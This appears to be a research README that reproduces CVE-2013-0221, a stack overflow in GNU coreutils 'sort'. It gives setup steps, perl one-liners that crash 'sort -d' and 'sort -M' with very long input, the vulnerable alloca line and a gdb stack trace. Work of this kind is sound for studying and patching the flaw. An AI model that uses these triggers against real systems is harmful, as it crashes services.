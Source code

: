 # CVE-2013-0221 & EDB-38232

## Experiment Environment

CentOS 6.4

## INSTALL & Configuration

```
wget https://github.com/mudongliang/source-packages/raw/master/CVE-2013-0221/coreutils-8.4-patched.tar.gz

tar -xvf coreutils-8.4-patched.tar.gz
cd coreutils-8.4
./configure
make
```

## Problems in Installation & Configuration

See [CVE-2013-0222](../CVE-2013-0222)

## How to trigger vulnerability

```
    perl -e 'print "1","A"x50000000,"\r\n\r\n"' | sort -d

    perl -e 'print "1","A"x50000000,"\r\n\r\n"' | sort -M
```

## PoCs

[GNU Coreutils 'sort' Text Utility - Buffer Overflow](https://www.exploit-db.com/exploits/38232/)

## Vulnerability Details & Patch

### Root Cause

```
sort.c:2632

	char *copy_a = (char *) alloca (lena + 1 + lenb + 1);
```

### Stack Trace

```
(gdb) info stack
#0  0x08051bc0 in keycompare_mb (a=0xb6f00048, b=0xb6f00038) at sort.c:2722
#1  0x0804a556 in compare (a=0xb6f00048, b=0xb6f00038) at sort.c:2787
#2  0x0804cc52 in sortlines (lines=0xb6f00058, nlines=<value optimized out>, temp=0xb6f00038) at sort.c:3195
#3  0x0804fd52 in sort (argc=2, argv=0xbf8a9654) at sort.c:3496
#4  main (argc=2, argv=0xbf8a9654) at sort.c:4328
```

## References

[1] [CVE-2013-0221: coreutils: segmentation fault in "sort -d" and "sort -M" with long line input](https://bugzilla.novell.com/show_bug.cgi?id=798538)
